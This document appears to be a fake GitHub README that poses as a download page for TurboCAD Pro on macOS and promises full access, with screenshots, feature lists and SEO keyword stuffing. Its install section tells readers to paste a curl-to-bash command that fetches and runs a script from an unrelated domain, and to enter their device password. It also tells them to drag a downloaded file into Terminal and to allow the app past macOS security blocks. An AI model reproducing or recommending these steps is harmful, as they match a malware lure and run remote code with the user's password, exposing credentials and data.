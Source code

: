 <p align="center">
  <img src="https://i.ibb.co/Q3cjpNyB/1616679918-turbocad.png" alt="TurboCAD Pro macOS Banner" />
</p>

<h1 align="center">TurboCAD Pro for macOS</h1>

<p align="center">
  🧱 A robust 2D/3D CAD application designed for architecture, engineering, and precision design on macOS.  
  <br><br>
  ✅ Supports Apple Silicon (M1/M2/M3) and Intel  
  ✅ Compatible with macOS Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/198" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20TURBOCAD%20PRO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download TurboCAD Pro for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/jP3XYG2z/1616683143-1-turbocad.jpg" alt="TurboCAD Pro UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is TurboCAD Pro for macOS?

**TurboCAD Pro for macOS** is a feature-rich CAD design software tailored for professional architects, engineers, and industrial designers. With advanced 2D drafting and 3D surface/solid modeling, it’s a versatile solution for creating floor plans, mechanical parts, architectural drawings, and technical illustrations.

Designed to run natively on **Apple Silicon** and optimized for macOS, TurboCAD Pro delivers fast performance and deep precision, offering parametric constraints, photorealistic rendering, and full DWG/DXF compatibility for AutoCAD interoperability.

---

## ✅ Why Choose TurboCAD Pro?

- 📐 **Professional 2D Drafting Tools**  
- 🧱 **Powerful 3D Modeling & Visualization**  
- 🔁 **DWG/DXF Compatible with AutoCAD**  
- 🖼️ **Photorealistic Rendering & Presentation Tools**  
- ⚙️ **Parametric Design & Constraints**  
- 📊 **Bill of Materials & Database Connectivity**  
- 🍎 **Fully Optimized for macOS and Apple Silicon**  
- 💡 **Architectural & Mechanical Design Templates**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/ns29fJRV/1616683202-3-turbocad.jpg" alt="3D Modeling in TurboCAD Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/R4JQB5YY/1616683157-2-turbocad.jpg" alt="2D Drafting Interface TurboCAD" />
</p>

---

## 🚀 Key Features

- 2D drawing tools: lines, arcs, curves, dimensions  
- 3D surface & solid modeling engine  
- Extrude, revolve, boolean, shell, and fillet tools  
- Snapping, alignment, and geometric constraints  
- Support for DWG, DXF, STL, OBJ, 3DS, STEP, IGES  
- Customizable UI with tool palettes and hotkeys  
- Built-in rendering engine for presentation  
- Works completely offline – no cloud dependencies

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow TurboCAD Pro under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-2D%2F3D+CAD+Design-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Drafting+Modeling+Rendering-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ TurboCAD Pro – Design with Accuracy

Thanks for using **TurboCAD Pro for macOS**.  
Where precision meets performance.

---

## 🧭 Usage Context

TurboCAD Pro is designed for offline CAD work in architecture, engineering, and 3D product design.  
No background sync or telemetry is involved.  

Suitable for individual professionals and local design teams.  
Not affiliated with Apple or Autodesk.

---

## 🔍 Tags

```text
turbocad pro for mac download, 2d cad software macbook pro, 3d modeling turbo cad mac m1, autocad alternative mac os, dwg dxf cad viewer and editor mac, architectural design app for mac, turbocad parametric constraints macos, mac cad software for engineers, photoreal rendering cad tool mac, turbocad pro offline installer mac, native apple silicon cad solution mac, create floor plans and models mac, turbocad stl obj iges export mac, turbo cad full version mac download, cad precision drawing and modeling mac
